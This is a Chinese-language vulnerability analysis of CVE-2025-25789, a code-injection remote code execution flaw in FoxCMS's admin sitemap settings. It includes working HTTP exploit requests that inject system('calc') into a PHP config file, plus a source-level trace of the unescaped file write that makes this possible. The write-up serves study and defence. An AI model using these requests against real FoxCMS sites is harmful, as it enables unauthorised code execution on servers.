# CVE-2025-25789 rce 漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/17322  
> **文章ID**: 17322

---

# CVE-2025-25789 rce 漏洞分析

## 前言

**文章中涉及的敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行承担**

## 环境搭建

下载源码后放入 www直接启动



然后配置一下数据库和管理员密码



安装成功后如图



## 漏洞复现

访问

```
http://foxcms:6767/index.php/admin6327/Sitemap/index.html?columnId=74
```



然后点击保存

```
POST /index.php/admin6327/Sitemap/index HTTP/1.1
Host: foxcms:6767
Content-Length: 118
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://foxcms:6767
Referer: http://foxcms:6767/index.php/admin6327/Sitemap/index.html?columnId=74
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=008dbf759bee25f230b171a94a38e2af
Connection: keep-alive

filter=hide_column%2Couter_model%2C&sitemap_type=xml%2Chtml%2C&frequency=a',system('calc'),'a&level=1.0%2C0.3%2C0.2%2C
```

修改我们的 frequency 为恶意的 payload

然后准备触发

我们抓取更新的包

```
POST /index.php/admin6327/Sitemap/handUpdate HTTP/1.1
Host: foxcms:6767
Content-Length: 8
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://foxcms:6767
Referer: http://foxcms:6767/index.php/admin6327/Sitemap/index.html?columnId=74
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=008dbf759bee25f230b171a94a38e2af
Connection: keep-alive

type=xml
```

然后发送



成功弹出计算器造成了 rce

## 调试分析

### 文件写入

这里我们详细调试分析一下

首先定位到我们的漏洞代码

```
Sitemap.php:17, app\admin\controller\Sitemap->index()
Container.php:344, ReflectionMethod->invokeArgs()
Container.php:344, think\App->invokeReflectMethod()
Controller.php:110, think\route\dispatch\Url->think\route\dispatch\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\route\dispatch\Controller.php:84-113}()
Pipeline.php:59, think\Pipeline->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Pipeline.php:57-63}()
Pipeline.php:66, think\Pipeline->then()
Controller.php:113, think\route\dispatch\Url->exec()
Dispatch.php:80, think\route\dispatch\Url->run()
Route.php:793, think\Route->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Route.php:792-794}()
Pipeline.php:59, think\Pipeline->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Pipeline.php:57-63}()
Pipeline.php:66, think\Pipeline->then()
Route.php:794, think\Route->dispatch()
Http.php:216, think\Http->dispatchToRoute()
Http.php:206, think\Http->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Http.php:205-207}()
Pipeline.php:59, think\Pipeline->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Pipeline.php:57-63}()
MultiApp.php:51, think\app\MultiApp->think\app\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\think-multi-app\src\MultiApp.php:50-52}()
Pipeline.php:59, think\Pipeline->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Pipeline.php:57-63}()
Pipeline.php:66, think\Pipeline->then()
MultiApp.php:52, think\app\MultiApp->handle()
Middleware.php:142, call_user_func:{D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Middleware.php:142}()
Middleware.php:142, think\Middleware->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Middleware.php:137-148}()
Pipeline.php:85, think\Pipeline->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Pipeline.php:83-89}()
AllowCrossDomain.php:61, think\middleware\AllowCrossDomain->handle()
Middleware.php:142, call_user_func:{D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Middleware.php:142}()
Middleware.php:142, think\Middleware->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Middleware.php:137-148}()
Pipeline.php:85, think\Pipeline->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Pipeline.php:83-89}()
SessionInit.php:67, think\middleware\SessionInit->handle()
Middleware.php:142, call_user_func:{D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Middleware.php:142}()
Middleware.php:142, think\Middleware->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Middleware.php:137-148}()
Pipeline.php:85, think\Pipeline->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Pipeline.php:83-89}()
TraceDebug.php:71, think\trace\TraceDebug->handle()
Middleware.php:142, call_user_func:{D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Middleware.php:142}()
Middleware.php:142, think\Middleware->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Middleware.php:137-148}()
Pipeline.php:85, think\Pipeline->think\{closure:D:\phpstudy_pro\WWW\FoxCMS v1.2.5\vendor\topthink\framework\src\think\Pipeline.php:83-89}()
Pipeline.php:66, think\Pipeline->then()
Http.php:207, think\Http->runWithRequest()
Http.php:170, think\Http->run()
index.php:105, {main}()
```

来到初始的 index 方法

首先处理我们的传入参数然后调用 set\_php\_arr 方法

```
public function index(){

    $sitemap = xn_cfg("sitemap");
    if($this->request->isAjax()){
        $param = $this->request->param();
        if(key_exists("filter", $param)){
            $sitemap['filter'] = $param['filter'];
        }
        if(key_exists("sitemap_type", $param)){
            $sitemap['sitemap_type'] = $param['sitemap_type'];
        }
        if(key_exists("frequency", $param)){
            $sitemap['frequency'] = $param['frequency'];
        }
        if(key_exists("level", $param)){
            $sitemap['level'] = $param['level'];
        }
        set_php_arr(config_path('cfg'),  'sitemap.php', $sitemap);
        $this->success("操作成功");
    }
    View::assign("sitemap", $sitemap);
    //过滤
    $filters = [];
    if(!empty($sitemap['filter'])){
        $filters = explode(",",$sitemap['filter']);
    }
    View::assign("filters",$filters);
    //sitemap类型
    $sitemapTypes = [];
    if(!empty($sitemap['sitemap_type'])){
        $sitemapTypes = explode(",",$sitemap['sitemap_type']);
    }
    View::assign("sitemapTypes",$sitemapTypes);
    //更新频率
    $frequencys = [];
    if(!empty($sitemap['frequency'])){
        $frequencys = explode(",",$sitemap['frequency']);
    }
    View::assign("frequencys",$frequencys);
    //优先级别
    $levels = [];
    if(!empty($sitemap['level'])){
        $levels = explode(",",$sitemap['level']);
    }
    View::assign("levels",$levels);
    $frequencyList = [
        ['key'=>'always','text'=>'经常'],
        ['key'=>'hourly','text'=>'每小时'],
        ['key'=>'daily','text'=>'每天'],
        ['key'=>'weekly','text'=>'每周'],
        ['key'=>'monthly','text'=>'每月'],
        ['key'=>'yearly','text'=>'每年'],
        ['key'=>'never','text'=>'从不']
    ];//更新频率
    $levelList = ['0.1','0.2','0.3','0.4','0.5','0.6','0.7','0.8','0.9','1.0'];//优先级别
    View::assign("frequencyList",$frequencyList);
    View::assign("levelList",$levelList);
    //sitemap 网站地图
    $view_suffix = config('view.view_suffix');//模型文件后缀
    $sitemap = "/app/home/view/sitemap.{$view_suffix}";

    $autoSitemap = root_path().'templates/'. $this->template['template']."/". $this->template['html']."/sitemap.{$view_suffix}";
    $autoSitemap = replaceSymbol($autoSitemap);
    if(file_exists($autoSitemap)){//文件存在的
        $sitemap = 'templates/'. $this->template['template']."/". $this->template['html']."/sitemap.{$view_suffix}";
        $sitemap = replaceSymbol($sitemap);
    }
    $cur_lang = $this->getMyLang();
    $home_lang = xn_cfg("base.home_lang");//默认语言
    if($cur_lang == $home_lang){
        $html_url = $this->domain."sitemap.html";
        $txt_url = $this->domain."sitemap.txt";
        $xml_url = $this->domain."sitemap.xml";
    }else{
        $html_url = $this->domain.$cur_lang."/sitemap.html";
        $txt_url = $this->domain.$cur_lang."/sitemap.txt";
        $xml_url = $this->domain.$cur_lang."/sitemap.xml";
    }
    $sm['html_url'] = $html_url;
    $sm['txt_url'] = $txt_url;
    $sm['xml_url'] = $xml_url;
    View::assign("sm",$sm);
    View::assign("sitemap",$sitemap);
    return view();
}
```



跟进 set\_php\_arr 方法

```
function set_php_arr($phpPath, $filename, $saveData)
    {
        //创建文件夹
        if (!tp_mkdir($phpPath)) {
            return "创建文件夹失败";
        }
        $phpfile = $phpPath . $filename;
        $str = "<?php\r
return [\r
";
        foreach ($saveData as $key => $val) {
            $str .= "\t'$key' => '$val',";
            $str .= "\r
";
        }
        $str .= '];';
        file_put_contents($phpfile, $str);
    }
}
```



可以看见就是一个写入文件的操作

可以看见写入的文件地址是

```
config\cfg\sitemap.php
```

而且写入内容就是一个 php 的文件内容

```
<?php
return [
    'filter' => 'hide_column,outer_model,',
    'sitemap_type' => 'xml,html,',
    'frequency' => 'a',system('calc'),'a',
    '0' => '1',
    '1' => 'a',
    'level' => '1.0,0.3,0.2,',
];
```

我们查看文件内容是否被改变



可以发现文件内容已经被修改，所以这算是一个在固定文件写入任意的内容

### 触发漏洞

那现在我们虽然写入了文件，但是如何触发漏洞呢？

直接访问吗



这样并不能触发漏洞

所以我们得想一个办法间接的去访问我们的文件

我们全局搜索我们的文件名称  


全局搜索了一下，发现并没有，但是并不代表不能触发漏洞

因为可能包含数据是拼接的

最后发现

handUpdate 方法是可以的

我们跟踪调试

```
public function handUpdate(){
    $type = $this->request->param("type","");
    if(empty($type)){
        $this->error("缺少更新参数");
    }
    $sitemapTypes = ['xml','txt','html'];
    if(!in_array($type, $sitemapTypes)){
        $this->error("更新网站地图参数错误");
    }
    (new SitemapUtil())->generateSitemap($type, $this->domain, $this->getMyLang());
    $this->success("更新成功");
}
```

跟进 generateSitemap 方法

```
public function generateSitemap($type, $domain, $lang=""){

    $sitemap = xn_cfg("sitemap");
    $filters = [];
    if(!empty($sitemap['filter'])){
        $filters = explode(",",$sitemap['filter']);
    }
    //更新频率
    $frequencys = [];
    if(!empty($sitemap['frequency'])){
        $frequencys = explode(",",$sitemap['frequency']);
    }
    //优先级别
    $levels = [];
    if(!empty($sitemap['level'])){
        $levels = explode(",",$sitemap['level']);
    }
    //url模式
    $url_model = xn_cfg("seo.url_model");

    $where = [];
    if(in_array("hide_column", $filters)){//隐藏栏目
        array_push($where, ['status', '=', 1]);
    }
    if(in_array("outer_model", $filters)){//过滤外部模块
        array_push($where, ['column_attr', '<>', 1]);
    }
    //查询模型
    $mrList = ModelRecord::field("table, nid")->where(['is_delete'=>0, 'status'=>1, "reference_model"=>0])->select();
    //查询栏目
    $curlang = xn_cfg("base.lang");
    if(empty($lang)){
        $lang = $curlang;
    }
    array_push($where, ['lang', '=', $lang]);
    $columns = Column::where($where)->order('level asc')->order('sort asc')->select();
    $view_suffix = config('view.view_suffix');
    if($url_model == 3){//静态化页面
        $indexUrl = $domain;
    }else{
        $indexUrl = $domain."index.{$view_suffix}";
    }
    if($type == "xml"){
        $this->xml_sitemap($columns, $indexUrl, $view_suffix, $mrList, $frequencys, $levels, $domain, $lang);
    }elseif ($type == "txt"){
        $this->txt_sitemap($columns, $mrList, $indexUrl, $domain, $lang);
    }elseif ($type == "html"){
        return $this->html_sitemap($columns, $mrList, $view_suffix, $domain, $lang);
    }elseif($type == "all"){//生成全部网站地图
        $this->txt_sitemap($columns, $mrList, $indexUrl, $domain, $lang);
        $this->xml_sitemap($columns, $indexUrl, $view_suffix, $mrList, $frequencys, $levels, $domain, $lang);
        $this->html_sitemap($columns, $mrList, $view_suffix, $domain, $lang);
    }
}

```

处理我们的类型进入 xn\_cfg 方法

```
function xn_cfg($name, $default = '', $path = 'cfg')
{
    if (false === strpos($name, '.')) {
        $name = strtolower($name);
        $config  = \think\facade\Config::load($path . '/' . $name, $name);
        return $config ?? [];
    }
    $name_arr    = explode('.', $name);
    $name_arr[0] = strtolower($name_arr[0]);
    $filename = $name_arr[0];
    $config  = \think\facade\Config::load($path . '/' . $filename, $filename);
    return $config[$name_arr[1]] ?? $default;
}
```

这里会加载我们的配置

